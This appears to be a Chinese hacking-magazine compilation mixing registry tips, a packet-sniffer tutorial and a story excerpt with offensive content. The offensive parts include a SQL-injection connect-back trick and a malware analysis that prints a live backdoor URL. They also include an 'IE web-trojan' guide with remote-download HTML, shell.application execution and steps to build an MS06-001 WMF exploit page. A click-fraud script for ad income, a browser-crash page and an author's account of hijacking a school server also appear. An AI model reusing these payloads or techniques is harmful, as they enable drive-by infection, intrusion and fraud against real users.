下面，我们就进入主题，来 Hacking Windows 的注册表，但不同的是，我们的目的在于利用注册表来优化和保护我们的 Windows 系统，而不是用来养马放马干坏事哦。

## 二、系统性能优化篇

一般说来，只要硬件配置不错，默认安装的 Win XP 系统在性能上已经能满足普通用户的需要了，但是你愿意只做一个普通用户吗？反正我不愿意，在系统性能和安全的要求上，我们的目标是：“没有最好，只有更好。”

- 1. 减少开机启动时间
- 2. 加快关机速度
- 3. 加速网上邻居
- 4. 优化文件系统
- 5. 清除内存中不使用的 DLL 文件
- 6. 加快开始菜单显示速度
- 7. 增加最大 IE 下载连接数

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters
HKEY_CURRENT_USER\Control Panel\Desktop
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings
```

| 键名 | dword 数值数据 |
|---|---|
| MaxConnectionsPerServer | 00000032 |
| MaxConnectionsPer1_0Server | 00000032 |

## 三、系统定制篇

对个人的电脑做一些适合自己个性的定制，会给自己的工作和学习带来很大的方便。

- 1. 自动登录
- 2. 登录前显示“合法通知”对话框
- 3. 建立 DOS 快速通道

> 有个安全隐患哦，因为按照上面的设置，你的密码将明文显示在 DefaultPassword 的位置，万一被攻击者利用……


长文件名的目录会让你抓狂，加上万一还要做个同一目录下的配置文件作为参数的时候，我相信几次下来你会疯掉。好，如果能在目标目录的右键加入 Cmd 快速通道的快捷方式，我们就可以将 cmd 命令直接定位到该目录了。找到项 `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\Folder\shell`，然后右键新建一个项，取名 `Cmd_DOS`（该名字无关紧要），然后双击右边的默认，在“数据数值”里写入你想右键单击目录时看到的文字，比如“DOS Prompt”，然后在 `Cmd_DOS` 下再新建一个项，取名为 `command`（这个就必须是 command 而不能乱取了），其默认值为 `"CMD.EXE /K CD%1"`，按 F5 刷新后，随便打开一个文件夹，右键选择 DOS Prompt，呵呵，看是不是打开了一个 DOS 窗口，而且前面的路径正好是你打开的那个文件夹的路径而不再是 `C:\Documents and Settings\{username}>` 了，显示效果如图 2 所示。


> 【小知识】`cmd.exe` 就是我们要运行的程序；`/K` 指执行字符串指定的命令但保留；`CD` 改变路径；`%1` 则是当前第一个参数，即当前目录。

## 四、系统安全篇

微软 Windows 的产品一直漏洞多多（^_^，否则我们怎么玩），安全性一直备受大家的谴责，但通过对注册表的一些特殊定制操作，我们也能在一定程度上加强其安全哦。

- 1. 禁止默认共享
- 2. 为磁盘驱动器建立高级安全机制
- 3. 禁止木马自动运行

言就不多说了，找到项：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

看看有没有可疑程序的存在，如有则删之，并根据提供的木马程序的路径找到木马体本身删之！

- 4. 禁止文件关联木马

还记得大名鼎鼎的“冰河”的启动，正是利用了关联 txt 文件的打开方式。通常我们比较常用的几种文件格式有 txt、exe、bat、com 等等，查看如下键：

```
[HKEY_CLASSES_ROOT\txtfile\shell\open\command]
="\"%1\" %*"
[HKEY_CLASSES_ROOT\comfile\shell\open\command]
="\"%1\" %*"
[HKEY_CLASSES_ROOT\batfile\shell\open\command]
="\"%1\" %*"
[HKEY_LOCAL_MACHINE\Software\CLASSES\batfile\shell\open\command]
="\"%1\" %*"
[HKEY_LOCAL_MACHINE\Software\CLASSES\comfile\shell\open\command]
="\"%1\" %*"
[HKEY_LOCAL_MACHINE\Software\CLASSES\exefile\shell\open\command]
="\"%1\" %*"
```

上面的每个键的值都应该是 `"%1" %*`，如果发现有如 `"trojan.exe %1" %*` 这样的值，那么在执行任何这些文件之前，trojan.exe 都将先被执行。发现异常应及时清除。

- 5. 禁止木马病毒通过系统服务启动
- 6. 禁止使用注册表编辑器

```
reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

不过，在 XP 下如果你用系统管理员登录系统并用上面的方式禁止注册表编辑器，再用上面代码生成的 reg 文件，并不能让你安心地导入到注册表里，而是会显示如下图 3 所示的错误。


图 3 注册表编辑已被停用。应该怎么办呢？这个时候，你可以在“开始”——“运行”中输入 gpedit.msc，【确定】后打开“组策略”窗口。在“组策略”的左窗口中依次找到“用户配置-管理模板-系统”分支，在右边的窗口中双击【阻止访问注册表编辑工具】，打开其属性对话框，并在设置中点选【已禁用】，如图 4 所示，然后【应用】并【确定】就可以了。这里如果选择“已启用”，就表示禁止注册表了。


- 7. 禁止 IE 密码自动填充

用 IE 上网，特别是使用邮件或登录 BBS 时，常会遇到密码信息被系统自动记录，下次重新访问时系统就会自动填写密码，这样无疑很容易导致个人信息的泄漏。为了防止此类事情发生，可以找到项 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies`，找到 network 子项，如果没有则自己添加，然后新建一个 DWORD 类型的值，名为 DisablePasswordCaching，设其值为 1，重启即可生效了。

- 8. 解除 IE 默认首页的灰色按钮

有时，我们会遇到很多的恶意网站，无耻地将我们 IE 的默认首页改为这些网站的网址，真的很烦人，而且利用 Internet 选项的设置项都被禁止，默认首页变成不可选，无法改回来，这个时候可以试试找到注册表项 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel`，一般此键是不存在的，只存在 `HKEY_CURRENT_USER\Software\Policies\Microsoft`，所以后面一截要自己新建，主键建立完后在 Control Panel 键下新建一个 DWORD 值数据，键名为 HomePage，键值为 0。此时再打开 IE 属性时可以发现它改首页设置的部分已经可用了。

那么如何解除 IE 设置项？同样的，将下面三个键值均改 1 为 0，则可恢复原功能。

```
reg
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]
"Settings"=dword:1
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]
"Links"=dword:1
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]
"SecAddSites"=dword:1
```

### 五、小结

呼～，Windows 的注册表是一个大宝库，也是个两面刃，如果你对它了解得越多，那么对 Windows 的理解就越深，Hacking 也就越容易。所以啊，要做一个 Windows 下合格的 hacker，还得听兄弟一句：嘿，哥们，先从注册表学起吧！

> 编辑点评：如果你是初学者，在学习注册表的过程中遇到许多问题，文中 PASS 了许多地方，但我觉得初学者还是要知道些，下面我简单说说：

- 1. 注册表的第六个根键
- 2. 注册表根键动态映射的关系
- 3. 各版本注册表编辑器之间的区别

| 名称 | 注册区域 |
|---|---|
| Regedit.exe | 可导入/导出文本格式的 reg 文件等 |
| Regedt32.exe | 可修改权限配置、编辑更多键值类型等 |

而到了 Windows XP 系统中，regedt32.exe 则拥有了 Windows 2000 中 regedit.exe 和 regedt32.exe 中的所有功能。在大家使用的时候一定要先导出注册表做好备份，以免误操作导致系统挂了还能恢复过来，切记，切记。

## （雕虫小技之脚本专辑）

Sql Server 注入的时候；如果不确定 web 和 Sqlserver 是不是在一个环境下，可以尝试用 Nosi 的列目录看看系统的文件，如果发现和 web 里访问的文件内容差不多，就应该是一个服务器了，如果没有列目录的权限，我们还可以通过 openset 让服务器来连接我们以此确定对方的服务器 IP，具体做法是先在本机用 nc 监听 1433 端口，然后在注入点执行：

```sql
select * from OPENROWSET('sqloledb','server=你的IP;uid=user;pwd=pass;database=dbname;','select * from tbmember')
```

看到谁连接到了你的 nc，就是服务器的 IP 了！

## 抽丝剥茧——一步一步教你分析网页木马（下）

上期我和大家一起通过一些简单的技术手段检测并确定了 http://www.zgkjl.com 这个网站被挂了马，并且下载了一个木马释放器（TrojanDropper.Mht.Psyme.gct）文件——1.js，下面我们就趁热打铁，进一步深入分析这个文件，看看它到底是怎么把木马下载到用户电脑中的！

> 小知识：TrojanDropper 木马释放器会在运行时释放其他木马，常伪装在看似正常程序中。

文件 1.js 的扩展名看似 JavaScript，但通过工具分析可发现并非普通脚本文件。


```
ITSF ... ITSP ...
```

根据文件头可判断该 1.js 实为 CHM 格式文件，内部包含木马内容。

继续分析后可发现其中包含 #.exe 字符串，抽取后触发杀毒软件告警 TrojanDownloader.Delf。

```
000000c0h: ... #.exe ...
```

从名字和特征判断这是木马下载器，使用 Delphi 编写。

```
PE ... NsPack v1.? (aplib) ... #.exe ...
```

> 小知识：TrojanDownloader 常采用接力下载方式，先下小下载器再下真正木马。

```
http://210.22.14.156/q2/q2.exe
```

脱壳与反汇编后发现真实下载地址，下载 q2.exe 后检出 Backdoor/Delf.ja。

总结：通过网页挂马样本、iframe 漏洞利用、CHM 伪装、释放器与下载器逐层追踪，最终定位到后门木马下载地址。

> 编者点评：本文重在分析思路；CHM 后门提取与手动脱壳可借助专用工具，后续将继续介绍。

五一长假你会如何安排？相信大家都已安排好了，而我呢，是要去宜昌进行实地“考察”一番。听说宜昌的 MM 很漂亮哦 ^_^。虽然路途远点，路上也比较枯燥，不过 5 月份的《黑客手册》可是解决这所有问题的良药喔。

- 乘客一：“嘿！以前经常吃晕车药，看来这次不需要了。”
- 乘客二：“看了《黑客手册》，网络安全意识强了，人生安全意识也强了。”
- 乘客三：“促进外地网吧消费。”（网吧业主：“我会意地笑~~”）

## 世界上最流行的网络协议分析器——Ethereal 的使用技巧

### 一、引子

很久以前，进入了学校的一台配置不错的服务器——4G 内存，600G 硬盘……于是开了 3389，用来挂 QQ，下电影……现在想想那才叫速度，那才叫真正的电脑，那才叫肉鸡（口水溢出中……）。

### 二、关于被抓

当然，抓鸡之心经常有，清除日志之心也不可无！我绝对会在最后将我的痕迹擦得一干二净……

可是，忽然间一个炸雷（电话）将我叫到了网络中心，本想狡辩几句，毕竟我自认为不会留下任何证据。没想到还没有等到我开口，老师就出示了证据。在如此的铁证下我不得不承认错误，还好老师开恩，只是让我写了一份检讨。到底是什么留下了让我不得不低头的证据呢？原来是这个号称世界上最流行的网络协议分析器——Ethereal，它将我开 3389、radmin、灰鸽子登录服务器以及开 ftp 下东西的数据包全部抓了下来，甚至将我在服务器上登录的邮箱的账号密码都找了出来，然后将这些抓到的数据包保存，甚至在我面前出示，如下图所示，这些都是流向我（ip 为 10.200.65.68）的数据；还想狡辩？还敢不承认？想不到一直将“安全第一”挂嘴边的我就这样翻船了……


### 三、师“夷”长技

吃了它的亏绝对不能对它一无所知，这是我向来的风格，何况还有一个不错的历史典故：师夷长技以制夷！于是我到 http://www.ethereal.com/ 下载了最新版的 Ethereal，并在自己的机器上安装了这个号称世界上最流行的网络协议分析器。不看不知道，一看，原来 Ethereal 是免费的，而且开放源代码！大家可以自己到 http://www.ethereal.com/ 看看。今天我就给大家介绍一下这个 Ethereal 的简单应用，希望能起到抛砖引玉的作用。同时也提醒各位小黑们小心了，不要被 Ethereal 抓住尾巴（苦苦求情的滋味很不好啊！），当然也提醒各位管理员，可以用 Ethereal 抓住别人入侵你的证据，就可以等别人向你苦苦哀求了，哈哈……

### 四、Ethereal 的应用

我这里下载的是最新的 0.10.14 版本，下载回来后一路点击“next”进行安装。


安装好以后运行 Ethereal，可以看到 Ethereal 的界面，如图 1 所示，还是十分简洁漂亮的。好了，现在开始讲它的使用。首先，点击左上角的第一个图标来选择网卡，出现如图 2 所示的页面。然后点击“prepare”按钮，就会显示出详细的设置信息，如图 3 所示。


其中 interface 是我们要选择的网卡，选择“capture packets in promiscuous mode”是选择抓包模式，也就是混杂模式。“Capture filter”是抓包的过滤条件，下面会有讲解。如果过滤条件什么也不写的话就是抓所有的包。我们什么也不写，直接点击 start 开始抓包，如图 4 所示。


界面如图 5 所示。

各种包都有我们看着很不方便，会眼花的，还记得前面我们提到的“filter”没有？我们可以加上条件进行过滤。例如抓到包以后，我们在左上角的 filter 里写上 http 然后回车或者点击 apply，就可以看到只与 http 有关的包。在抓包期间我登录了 126 的邮箱，在抓到的包里就可以看到登录的用户名和密码，如图 6 所示。


这对我们反击入侵者，找出木马用的邮箱的账户密码是很有用的。^^

### 五、Ethereal 的高级应用

啊啊，其实仔细地分析这些包可以使我们学到很多东西，但这不是本文的重点。下面我着重介绍一下如何写过滤条件——这是 Ethereal 使用的重点。

用 ip.src == xxip 可以看到 xxip 为源地址的包，例如我们这样写：ip.src==10.200.64.168，就可以看到 10.200.64.168 为源地址的包，如图 7 所示。


其实 filter 比较类似于 C 语言，刚才我们显示的是源地址为 10.200.64.168 的包。如果我们要显示除了 10.200.64.168 的包，我们可以这样写：!(ip.src==10.200.64.168)，结果如图 8 所示。

为了给我们 NoHack 节约宝贵的版面，下面我只介绍一些过滤条件语句，就不再抓图了。

> Filter 里只写协议的名称就表示只显示这种协议。例如 udp 之类的，Ethereal 支持很多种协议的，具体支持什么协议，大家按下 shift+ctrl+p 就可以看到具体的协议名称了。

ip.addr==、ip.dst==、ip.src== 分别表示含双等号后面 ip 的包、以双等号后面 ip 为目的地址的包和以双等号后面的 ip 为源地址的包，这是很容易记忆的。

我们还可以对协议的某个端口进行过滤，写法是：协议名.port==具体的端口号。例如 tcp.port==8000，就会显示 tcp 8000 端口的包。协议名.length==数字，就表示显示包长为数字的包。

如果多个条件，我们可以用 and 来连接，表示“并且”的意思。例如：tcp and ip.src==xxip 就表示只显示 xxip 为源地址的 tcp 包，而 tcp and ip.src==10.200.64.168 and ip.dst==202.204.206.18 表示只显示源地址为 10.200.64.168 且目的地址为 202.204.206.18 的 tcp 包。另外还有其他的连接符号 or、not，表示或者、非，加上前面的 and，也就是“并且”，也就是说的与或非都可以表示了。

### 尾声

有了这些，我们可以对 ip、端口、协议、包长进行过滤，再加上三个连接符号 not、and、or，就可以构造过滤条件来过滤自己需要的包，得到入侵者的证据也就不难了！

本文只是我使用 Ethereal 的一点心得，更多的功能还没有介绍，希望能起到抛砖引玉的作用，也希望各位能从中学到一星半点的东西。我也是菜鸟一个，希望和大家一起学习，共同进步。我的非安全论坛的账号是 suspense，大家有问题的话请到上边讨论！

> 最新 Ethereal 下载地址：  
> http://www.ethereal.com/distribution/win32/ethereal-setup-0.10.14.exe

【该软件光盘中有收录】

编者点评：作者只是谈了谈嗅探程序的应用以及常用的小技巧，其实嗅探程序的应用远不止这些，例如设置一些条件来捕获蠕虫病毒等。不过请大家注意，最好能用一台专门的电脑来做相关的工作，因为嗅探程序很耗资源哦。

## 网络攻防技术必备专辑

在 2003 中利用上传漏洞的时候，有最小文件长度的限制，你可以通过适当地增加文件的长度达到它的要求，就可以实现上传了。

现在很多的网站都做了简单的漏洞修补，地址栏里很难找到注入漏洞，这个时候可以多注意一下搜索的地方，输入 ! 等可以很快地找到注入漏洞哦！还有一些下拉菜单也是可以利用的好地方。

## 实例解读：两种 IE“网马”的实现模式

曹军 / dang0102

- 1. 传统的 IE 网马木马实现模式
- 2. 客户端漏洞利用与 HTML 结合的实现模式

### 一、引子

IE 网页木马简称 IE“网马”，这个名词对于广大安全爱好者来说应该很熟悉。文中讨论 IE“网马”的两种实现模式：传统 IE“网马”实现模式，以及客户端漏洞利用与 HTML 结合的实现模式。前者可由单独 HTML 构成，后者通常由一个 HTML 文件加其他文件（如图片等）构成。

### 二、传统的 IE“网马”实现模式

传统 IE“网马”主要完成 Down&Exe：将木马放在服务器，浏览器访问后触发下载并执行。下载木马到浏览者电脑后执行该文件。

```html
方法一：
<SCRIPT LANGUAGE="javascript" src="http://192.168.3.222/abc.bat"></SCRIPT>
```

```html
方法二：
<html><head>
<LINK href="http://192.168.3.222/abc.bat" rel="stylesheet" type="text/css">
</head>
<body>OK!</body></html>
```

上述两种方法在实际测试中都较好用，适用于当时多数 IE 版本。下载后的文件保存在 TIF（Temporary Internet Files）目录。

木马下载后还需执行。IE 执行 .exe、.bat 等可执行文件传统方式依赖控件，如 WSH、FSO、shell.application。WSH/FSO 容易被安全软件识别，而 shell.application 在 IE6.0 中可在一定条件下调用。

```html
<html><head>执行测试</head><body>
<SCRIPT LANGUAGE="javascript" type="text/javascript">
var shell=new ActiveXObject("shell.application");
shell.namespace("c:\\Winnt\\").items().item("Notepad.exe").invokeverb();
</SCRIPT></body></html>
```

测试环境为 Windows 2000+SP4、IE6.0；XP 环境路径需调整。IE6.0+SP1 及更高默认设置下通常不支持 shell.application，传统 IE 控件方式逐渐不可行。

### 三、客户端漏洞利用与 HTML 相结合的实现模式介绍

该模式是当时打造 IE“网马”的有效方式，分为漏洞调试、畸形文件构造、HTML 网页制作三个阶段。所谓客户端漏洞包括文件解析漏洞（如 IE 解析 gif/jpg/ANI、Word 解析 doc、Explorer 解析 WMF、Winamp 解析 pls 等）。这些漏洞可通过 IE 触发。

### 四、客户端漏洞利用与 HTML 相结合的实现模式实例分析

本节以 WMF 漏洞（MS06-001）为例说明调试与利用思路，平台为 Windows XP SP2。讨论了 WMF Record 头差异触发代码执行的现象，并给出调试步骤。


- 1. 用 UltraEdit32 打开正常的 test.wmf 文件。
- 2. 搜索特征字节序列（如 26 06 0F 00 16 00），在多个 Record 中定位合适位置。

一个 Record 作测试。将 0F 改为 09，然后 16 00 后面填充若干字节 89，接下来填很多 90，如图 2 所示。


图 2 数据填充

```html
</script></head>
<body>
waiting for a moment!
</body></html>
```

（3）保存之后，打开 Softice，输入命令：bpx KiuserExceptionDispatcher。直接预览 test.wmf，Softice 弹出来，输入命令：d *((esp + 4) + b8)，里面的内容是 89 89 89 89...，是我们刚才填充的数据。从 89 的字节数和顺序看，代码就是从 16 00 之后的第一个 89 开始执行的，由于 89 是非法指令，因而发生异常。

是不是觉得这种测试方法很简单啊！由于本文的重点是研究 IE“网马”的形成模式，因此我并没有写出完整的漏洞分析过程，只介绍了与后面构造畸形文件相关的内容。找到代码开始执行的位置，也就找到了 ShellCode 开始的位置。接下来，我们就可以按照需求填入 ShellCode，构造畸形 WMF 文件了。

### 2、畸形文件的构造

这个阶段的任务是制定 ShellCode，并将其嵌入 WMF 文件中。ShellCode 可以找现成的，也可以根据需要自己编写并提取。这里采用的是打开 cmd 窗口的 ShellCode。关于 ShellCode 的嵌入，一般是编写程序来实现。思路很简单，就是将 ShellCode 和 WMF 文件其它部分数据作为数组变量，通过 CreateFile 和 WriteFile 等 API 函数写入指定的 WMF 文件。

以避免手工操作的繁琐和失误。完成 ShellCode 嵌入功能的程序代码 CreateWmf.cpp 以及生成的 Exp.wmf 在光盘中有提供。

### 3、HTML 网页的制作

这个阶段的任务是 HTML 网页的编写。HTML 网页的功能是让 IE 跳转到 WMF 文件并进行解析，比较有效的方法这里列举两种。

```html
方法一：
使用 meta 标签的 http-equiv 属性，打开网页 4 秒后解析 Exp.wmf，代码如下：
<html><meta http-equiv='refresh' content='4; URL=Exp.wmf'>
<body>
网马测试！
</body></html>

方法二：
使用 self.location 函数，代码如下：
<html><head><script>
self.location='Exp.wmf'
```

上述两种方法，Exp.wmf 都是用的相对路径，这是因为我直接将 Exp.wmf 和 HTML 网页放在同一目录下。如果是完全不同的目录，Exp.wmf 还是用绝对的 URL 表示比较好。除了上述两种方法，还有其它方法可构造 HTML 网页，大家可以根据需要自己选择。HTML 网页 Test1.html 和 Test2.html 在光盘中也有提供。

MS06-001 这个例子就介绍到这里，其实正如前面所说，其它客户端漏洞的利用，如 Word 溢出漏洞、Winamp 溢出漏洞等，都可以按照前面的方法实现 IE“网马”，相信大家能举一反三。

### 五、总结

本文中，我和大家一起对比讨论了 IE“网马”的两种实现方法，并给出了相关实例，希望对感兴趣的朋友能有所帮助。同时，对文章中的不足之处，还希望大家积极指出并和我交流。

> 【文章中涉及的 test1.html、test2.html、down1.html、down2.html、test_exe.html 以及 CreateFile 的代码均收录在光盘中。】

> 编辑点评：作者用代码和例子解读了两种木马的实现方式，便于大家理解，以 WMF 格式代码执行漏洞为例子讲述了一般漏洞的调试和利用，具有较强的通用性。

## 从刷点击到提升站点搜索排位

- 1. 利用刷帖程序提高帖子点击率和回帖量。
- 2. 利用刷帖程序进行恶意的广告发布。
- 3. 利用刷帖程序提高网站的搜索排名。

达到目的吗？说干就干，我马上编写了一个类似这样的程序：

```html
<script language=javascript>
window.open('http://www.nohack.cn', '', 'width=0,height=0,top=0,left=0,status=yes,toolbar=yes,menubar=yes,scrollbars=yes,resizable=yes,location=yes')
</script>
<script language=javascript>
window.open('http://www.nohack.cn', '', 'width=0,height=0,top=0,left=0,status=yes,toolbar=yes,menubar=yes,scrollbars=yes,resizable=yes,location=yes')
</script>
```

## 利用 IE 漏洞戏耍入侵者

到投票时用的 URL，这样只需把代码里的 URL 换成投票的 URL，再阻止 COOKIES，我们就可以快速地投许多票了（有需登录或认 IP 的投票限制除外）。除此之外，现在很多网络广告都是按点击率算钱的，如果我们把 URL 换成我们自己广告的 URL，那不就财源滚滚了！但要注意，刷自己的广告可不能刷太多哦，不然被查出作弊是会被封的，那样我们就一分钱都没有了……

前几天逛了友死党的个人 blog，我的卡巴立马发出病毒警告，显然就是网页木马。个人感觉死党本人挂马怎么可能，他的 blog 浏览量还算不错，怎么可能砸自己口碑的招牌？后来 QQ 上询问他，原来是某个“元帅”的家伙入侵他的网站并且挂了网页木马。

绿盟关于该漏洞的描述是：“Microsoft Windows 的 MSHTML.DLL 在解析特制 HTML 时存在拒绝服务漏洞。远程攻击者可以通过诱骗用户访问特制的 HTML 页面导致 IE 崩溃。”同时也给出了漏洞的利用代码。

```html
<html>
<head>
<style>
#page div p:first-child:first-letter {
  border-bottom: 2px ridge #F5DEB3;
}
</style>
</head>
<body><div id="page"><div><p><strong>sintu</strong></p>
```

只要我们保存为 *.htm 放到网站上浏览，IE 和其他基于 IE 的浏览器会马上崩溃。如果是写到 aspshell，由于代码不兼容原因一般会报错。其实我们完全可以利用调用语句把代码保存为 haha.htm 并放在入侵者 aspshell 目录中，然后在末尾插入 include 语句。


然后立刻把这个思路告诉朋友，他有意利用统计系统做了一个入侵者 aspshell 访问统计。晚上他说这个页面被访问了 50 多次，许多人在这里会选择确定，如此下去就成了一个死循环。

截至到发稿，官方仍未给出安全补丁。写这篇文章是提醒大家多关注最新的漏洞信息，因为很多不被重视的漏洞也有利用价值。

## 黑客也爱用专业QQ

> 本文导读：
- 介绍使用 MiniQQ；
- 介绍 MiniQQ 的相关功能。

今天给大家介绍一款黑客专用 QQ：MiniQQ 2.0。它体积小（约 70K），主要采用命令行操作，功能简洁，包含加好友、删好友、查看好友信息、发消息、显示在线好友、修改状态（离线/隐身/上线）等。

使用方式：先到官方网站下载（文中给出 prettysky.com/miniq/），运行后输入 QQ 号和密码，并选择是否隐身。登录成功后进入命令提示状态，可输入 `?` 查看命令帮助。


下面详细介绍命令使用。

### 功能一：查看在线好友列表

输入 `list` 可查看在线好友；输入 `listall` 可显示全部好友，并可显示部分好友的 IP 地址。


### 功能二：查看和改变 QQ 状态

输入 `state` 可查看当前状态，并按提示输入数值切换在线、忙碌、隐身等状态。


### 功能三：查看好友信息

命令为 `info`，后面可跟编号、QQ 号或昵称；查询结果与腾讯 QQ 资料一致。


### 功能四：发送与接收信息

命令为 `send`，输入后按列表选择接收方（编号/QQ/昵称），再输入内容。对方回复时软件会自动提示。


### 功能五：增加与删除好友

添加与删除命令分别为 `add` 和 `delete`。添加时输入 QQ 号，若对方设置验证需填写验证信息；删除步骤与添加类似。


### 功能六：查看聊天记录

软件会在运行目录下生成以 QQ 号命名的文件夹，聊天记录以明文保存在对应目录中（文中提及图12）。

好了，大体功能已经介绍完了，赶紧实验实验吧，体验一把黑客专用 QQ 给你带来的快感！

【文中涉及到的 MiniQQ，已经收录在光盘中。】

编辑点评：我也试用了一下，感觉非常 Cool。优点是：可以直接隐藏 IP，QQ 侦测不到，也不用担心被盗号软件偷密码。缺点是：文字聊天的内容没有受到保护，不能接收图片信息。


## 用 VBScript 获取互联网上时间

在百度遛游，忽然看到一个问题，是问如何用 js 取得互联网时间，而不是本地时间。互联网时间，不就是时间服务器嘛，好说，查查资料先~~

可惜结果不甚理想，原来时间服务器使用的是 UDP 协议，而 HTTP 却是 TCP 的，如果不用自己的控件根本没法完成嘛，本来还想用 XMLHTTP 做点什么的呢~~

后来忽然想到，不是 HTTP 服务器的响应头都有个 DATE 选项吗？如果能拿到开了 HTTP 的时间服务器的 HTTP 头，不就能得到时间服务器的时间了吗？哈哈！于是说做就做，我用 XMLHTTP 获得了国内的一台时间服务器的 HTTP 头，把 DATE 选项分离出来，就可以啦，代码如下：

```html
<script>
var xmlhttp = new ActiveXObject("MSXML2.XMLHTTP.3.0"); // 建立 XMLHTTP 对象
xmlhttp.open("GET", "http://时间服务器地址/", false); // 打开
xmlhttp.send(); // 发送
var dateStr = xmlhttp.getResponseHeader("Date"); // 取得 Date 选项
alert(dateStr);
</script>
```

测试一下，哈哈，效果不错（图1）。


可惜好景不长，我再做测试时忽然发现得到了一个空的 dateStr 值。刚才不还好好的吗？服务器不该随便更改 HTTP 头啊。不甘心，于是拿出 WinsockExpert，我抓包，看你小子怎么弄的！这是我发送的包：

```http
GET / HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Referer: file:///C:\Documents and Settings\Administrator\桌面\date.htm
Accept-Encoding: gzip, deflate
If-Modified-Since: Sun, 16 Nov 2003 05:49:50 GMT
If-None-Match: "663c-1bcd-3fb70ffe"
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Alexa Toolbar)
Host: www.xxxxxxx.com.cn
Connection: Keep-Alive
```

这是收到的包：

```http
HTTP/1.1 304 Not Modified
Date: Thu, 30 Mar 2006 05:34:31 GMT
Server: Apache/1.3.27 (Unix)
Connection: Keep-Alive
Keep-Alive: timeout=15, max=100
ETag: "663c-1bcd-3fb70ffe"
```

里面有时间啊，难道是 IE 直接去缓存取了，所以就不给时间？好，修改下，If-Modified-Since 这个选项不要了，否则 IE 就跑去缓存去了。可是 XMLHTTP 没有删除选项头的方法，只好修改吧，在 xmlhttp.open 这句后面加上：

```javascript
xmlhttp.setRequestHeader("If-Modified-Since", "0");
```

再来测试下，成功了，看来我的猜测是正确的。还有一个小问题就是这里得到的是 GMT 标准时间，若是想要我们所在时区的时间怎么办呢？有个简单的方法：

```javascript
var dateStr = xmlhttp.getResponseHeader("Date");
var d = new Date(dateStr); // 解析为 Date 对象
document.write(d); // 输出
```

得到结果是 Thu Mar 30 13:43:36 UTC+0800 2006，问题应当解决了。完整代码现在是：

```html
<script>
var xmlhttp = new ActiveXObject("MSXML2.XMLHTTP.3.0");
xmlhttp.open("GET", "http://时间服务器地址/", false);
xmlhttp.setRequestHeader("If-Modified-Since", "0");
xmlhttp.send();
var dateStr = xmlhttp.getResponseHeader("Date");
var d = new Date(dateStr);
document.write(d);
</script>
```

代码中的时间服务器地址可以替换为一个速度比较快的、官方的 HTTP 服务器，例如 www.163.com，呵呵。不过还有一点小问题，就是这个脚本是同步的，要等收到时间服务器的返回信息后才继续执行，所以可以修改成异步方式，就留给读者自己修改吧。呵呵。相关资料可以去 http://www.xmlhttp.cn/ 查询。


爱情总是让人向往的……但却充满了酸辛……杂志的众多小编们也都在向往的年龄……但大多只能想想，据说空气已因为过度向往爱情的完美而暂时离开了我们，希望有 MM 能够奉献一下，召回我们的空气。我代表广大读者感谢你！

谁的情路能一路坦荡？有开始没结束——我不怕受错，就怕没爱过……

除了爱情，我们还有东西，本期采访 NBSI 的作者小竹。黑客世界，孤寂的旅程，快乐痛苦独自体会。

## 东窗花开，残笔君来

女孩在网络的那头浅浅地笑着，消息栏里出现几个粉红色的字体：“我叫菊儿。”

“这应该不是你的真名吧？”

“可是我的家人就这么叫我。”菊儿在网络的那头依然拒绝告诉我她的真名，而十二个小时后，我将要出现在她所在的那座城市。

认识菊儿是在北京一个大雪纷飞的夜晚。我与女朋友分手了，万念俱灰，独自一人抽着烟，在街边一个偏僻的网吧里通宵。深冬的一月，我在一个聊天室里不断地发消息。我需要有个人来陪我到天亮。

没有什么人搭理我，天气很冷，我的手指渐渐麻木，正要退出的时候，信息栏里出现一行字，字的开头显示对方的姓名叫菊儿。

“我陪你聊可以吗？”

“你的 QQ 是多少？”这个昵称太过平常，我有些疲倦，不想在聊天室里浪费时间。很快，一串数字发了过来，我很熟练地复制、粘贴。一个头像清秀的女孩出现在我的好友名单里。时间已经到了深夜 12 点，网络中依然热闹非凡。人们不停地在虚拟的网络上找寻着可以填补空虚的东西，有些人落空，有些人回到现实……

我们一句接着一句慢慢地聊着，她打字不快，所以我经常在等。我知道了她在一个沿海的城市生活，春天快到的时候，田野里遍是香气扑鼻的野菊花……

我一边缓缓地给她发消息，一边在一个熟悉的黑客站点上看东西。屋外，西北风呼呼地刮着，吹着不知道哪里的洞穴，发出诡异的哭泣声。我不知道这个倒霉的冬季到底还要持续多久，我没有毛衣，只有一件单薄的棉袄为我提供有限的温暖。偶然一瞥，我看到了她 QQ 的状态栏里那个摄像头的标志。和很多人一样，我给对方发送了视频请求。

时间停止了十几秒钟，对方按了接受。慢慢地，我看到了屏幕上那张清秀的脸，一个十八九岁左右的女孩，齐肩的头发，白皙的脸蛋，那双清澈、明净的眼睛里，找不到一丝阴影。刹那间，我的脑子里一片空白。她笑，眼角眉梢间流光溢彩，仿佛可以融化冰雪。我想她也在摄像头里看到了我了，一个颓废的、抽着烟的网络混混，懒散地斜靠在网吧里油腻的椅背上，双眼透出一股疲惫与空洞。

我不知道自己停顿了多久，手边的烟已经燃尽，烫到了我的手指。由于疼痛，我抖了一下。她又笑了。

“你好纯。”

